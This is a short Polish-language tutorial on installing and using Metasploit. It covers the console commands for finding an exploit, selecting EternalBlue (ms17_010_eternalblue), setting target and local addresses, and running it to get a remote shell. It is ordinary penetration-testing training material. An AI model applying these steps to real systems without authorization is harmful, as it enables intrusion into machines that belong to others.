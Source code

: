 Metasploit jest jednym z najpotężniejszych narzędzi wykorzystywanych w testach penetracyjnych, używanym do eksploatacji podatności w systemach. Oferuje bogaty zestaw exploitów, payloadów, oraz narzędzi do post-exploitation.

### **Instalacja**
Na systemie Ubuntu/Debian:
```bash
sudo apt update
sudo apt install metasploit-framework
```

Aby upewnić się, że instalacja się powiodła, uruchom Metasploit:
```bash
msfconsole
```

### **Podstawowe Użycie**
1. **Uruchomienie Metasploit:**
```bash
msfconsole
```
Po uruchomieniu Metasploit pojawi się interfejs konsolowy, w którym będziesz mógł wprowadzać komendy.

2. **Wyszukiwanie exploitów:**
```bash
search <nazwa_podatności>
```
Np. dla exploita dla systemu Windows:
```bash
search windows
```

3. **Wybór exploita:**
Po znalezieniu interesującego exploita, aby go wybrać, użyj komendy:
```bash
use <nazwa_exploita>
```
Np. `use exploit/windows/smb/ms17_010_eternalblue`.

4. **Konfiguracja exploitów:**
Po wybraniu exploita, musisz ustawić odpowiednie opcje, takie jak adres docelowy i lokalny adres (twojego maszyny):
```bash
set RHOST <adres_docelowy>
set LHOST <twój_adres_IP>
```

5. **Uruchomienie exploita:**
```bash
exploit
```
Metasploit zacznie próbować wykorzystać podatność na docelowym systemie.

6. **Uzyskanie dostępu do systemu:**
Po udanym ataku Metasploit utworzy połączenie z systemem i otworzy sesję powłoki (shell) na zdalnej maszynie.

---